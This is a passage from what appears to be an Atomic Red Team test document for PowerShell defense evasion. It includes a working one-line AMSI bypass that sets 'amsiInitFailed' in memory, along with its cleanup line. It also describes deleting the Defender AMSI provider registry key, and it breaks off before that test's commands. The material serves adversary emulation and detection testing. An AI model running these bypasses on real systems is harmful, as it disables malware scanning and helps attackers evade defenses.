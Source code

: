 ```powershell
if(-not ($Env:Path).contains($parentpath)){$Env:Path += ";$parentpath"}
```
##### Description: Sysmon must be installed
##### Check Prereq Commands:
```powershell
if(cmd /c sc query sysmon) { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
cmd /c sysmon -i -accepteula
```




<br/>
<br/>

## Atomic Test #13 - AMSI Bypass - AMSI InitFailed
Any easy way to bypass AMSI inspection is it patch the dll in memory setting the "amsiInitFailed" function to true.
Upon execution, no output is displayed.

https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/

**Supported Platforms:** Windows


**auto_generated_guid:** 695eed40-e949-40e5-b306-b4031e4154bd






#### Attack Commands: Run with `powershell`! 


```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### Cleanup Commands:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$false)
```





<br/>
<br/>

## Atomic Test #14 - AMSI Bypass - Remove AMSI Provider Reg Key
With administrative rights, an adversary can remove the AMSI Provider registry key in HKLM\Software\Microsoft\AMSI to disable AMSI inspection.
This test removes the Windows Defender provider registry key. Upon execution, no output is displayed.
Open Registry Editor and navigate to "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\" to verify that it is gone.
